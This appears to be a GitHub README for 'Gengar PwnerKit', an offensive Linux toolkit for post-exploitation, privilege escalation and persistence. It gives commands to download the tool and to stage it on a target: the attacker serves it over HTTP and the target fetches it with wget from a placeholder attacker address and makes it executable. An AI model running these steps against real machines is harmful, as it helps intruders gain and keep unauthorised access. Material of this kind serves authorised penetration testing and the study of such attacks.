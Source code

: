 # Gengar PwnerKit
> ## | Post Exploration | Privilege Escalation | Persistence |
> 
>                  ![image](https://github.com/h0ru/gpk/blob/main/gengar.gif)
>
> ---

> ## How to install?
> ### Wget:
> ```
> wget -q https://raw.githubusercontent.com/h0ru/gpk/main/gpk -O gpk ; chmod +x gpk
> ```
> ### Curl: 
> ```
> curl -q https://raw.githubusercontent.com/h0ru/gpk/main/gpk -o gpk ; chmod +x gpk
> ```
> ---

> ## How to upload to targets machine?
> ### 1. Download the GPK
> ### 2. Attacker Machine:  
> ```
> python3 -m http.server PORT
> ``` 
> ### 3. Target Machine:
> ```
> wget YOURIP:PORT/gpk ; chmod +x gpk
> ```
> ---

> ## GPK uses these other scripts
> ### ➫ [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
> ### ➫ [Linux Exploit Suggester ](https://github.com/The-Z-Labs/linux-exploit-suggester)
> ---
